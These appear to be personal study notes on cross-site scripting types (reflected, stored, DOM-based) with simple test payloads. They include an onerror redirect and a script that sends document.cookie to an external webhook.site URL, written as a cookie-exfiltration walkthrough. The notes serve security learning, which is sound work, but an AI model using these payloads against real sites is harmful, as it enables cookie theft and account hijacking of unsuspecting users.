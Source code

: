   you can only target yourself unless:
  - the <span style="color:#6666ff">payload</span> is inside -->  the <span style="color:#6666ff">URI</span>
  - you <span style="color:#6666ff">entice</span> a user -->  to click on the link                        (enitce = attract)

- <span style="color:#00b050">stored</span>:
  more powerful
	-  <span style="color:#6666ff">payload</span> is stored in something like a -->   <span style="color:#6666ff">DB</span>
	- payload can be <span style="color:#6666ff">retrieved</span> <span style="color:#6666ff">later</span>
    =>
    it allows to <span style="color:#6666ff">attack</span><span style="color:#6666ff"> other users</span>
    
- <span style="color:#00b050">DOM-based:</span>
	- <span style="color:#6666ff">client</span> side has some -->  <span style="color:#6666ff">vulnerable JS</span>
	- this vulnerable JS uses -->      - <span style="color:#6666ff">untrusted inputs</span>
	                            - instead of having a vulnerability server side

#### Check if page is XSS vulnerable
- open the page
- open the console -->  `CTRL+shif+C`
- try:
	- `alert(1)`
	- `print()`
	- `prompt('hello')`

when you are testing for XSS:
you can first check for -->  HTML injection
=>
- `<h1> test </h1>`

#### Basic XSS
`<img src=x onerror="prompt(1)">`
document tries to load x =>    - it will throw an error
                         - on the error we can execute come JS
if it works =>
try to redirect the user:
 `<img src=x onerror="window.location.href='https://google.com'">`

##### Get cookie
`<script> alert(document.cookie)</script>`

##### Exfiltrate Cookies
- open [[cheat#Webhook.site|WebHook website]]
- copy the unique URL
- at the end of it -->  `/?`
- type in the vulnerable input
  `<script> var i = new Image; i.src="https://webhook.site/a67abe7f-f8f9-44af-bf90-6f29be6fd833/?"+document.cookie; </script>`
- refresh the vuln page
- <span style="color:#00b050">we got the cookie</span> 
  ![[Pasted image 20240308113410.png]]
